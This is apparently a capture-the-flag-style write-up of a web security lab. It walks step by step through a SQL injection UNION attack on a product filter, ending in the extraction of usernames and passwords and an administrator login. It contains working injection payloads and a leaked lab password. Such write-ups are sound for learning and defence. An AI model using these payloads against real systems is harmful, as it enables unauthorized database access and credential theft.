




 
# Lab: SQL injection UNION attack, retrieving data from other tables

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, allowing a `UNION` attack to retrieve data from the `users` table, which contains the `username` and `password` columns.

The goal is to determine the column structure, identify string-compatible columns, extract all credentials, and log in as the `administrator` user.

---

## Step 1 — Intercept the Base Request
Navigate to the application, select a category filter (e.g., `Gifts`), capture the request in Burp Suite, and send it to Repeater.

### Example Base Request
GET /filter?category=Gifts HTTP/2
Host: 0acd00b8045bf24781fd08c4006200db.web-security-academy.net

---

## Step 2 — Verify SQL Injection & Comment Format
To confirm that input is executed dynamically, a single quote (`'`) was appended to disrupt the SQL query, which returned a database error. Using the SQL comment indicator (`--`) successfully repairs the query syntax.

### Results
* `Gifts'` -> **500 Internal Server Error** (SQL syntax broken).
* `Gifts'--` -> **200 OK** (Query execution restored).

### Screenshots

---

## Step 3 — Determine Column Count via NULL Values
By systematically appending `NULL` values to the injected `UNION SELECT` statement, the exact number of columns returned by the original query was determined.

### Results
* `Gifts'+UNION+SELECT+NULL--` -> **500 Internal Server Error**
* `Gifts'+UNION+SELECT+NULL,NULL--` -> **200 OK** (Confirms the query returns exactly **2 columns**).

### Screenshots

---

## Step 4 — Verify Column Data Type Compatibility
To verify if both of the discovered columns can hold string/text data, dummy text values (`'abc'`, `'def'`) were injected into the `UNION SELECT` payload.

### Payload
`Gifts'+UNION+SELECT+'abc','def'--`

### Results
* **Response:** **200 OK** (Confirms both Column 1 and Column 2 are string-compatible and can render arbitrary text).

### Screenshots

---

## Step 5 — Data Exfiltration
With both columns verified to support string data, a targeted extraction request was executed against the `users` table to leak all stored credentials.

### Exfiltration Payload
`Gifts'+UNION+SELECT+username,+password+FROM+users--`

### Compromised Credentials
* **Username:** `administrator`
* **Password:** `duiuhjfl0nwutq1c8f5m`

### Screenshots

---

## Step 6 — Verification (Lab Solved)
By submitting the recovered administrator credentials at the `/login` endpoint, a high-privilege session was successfully authenticated, satisfying the objective and completing the lab.

### Screenshots
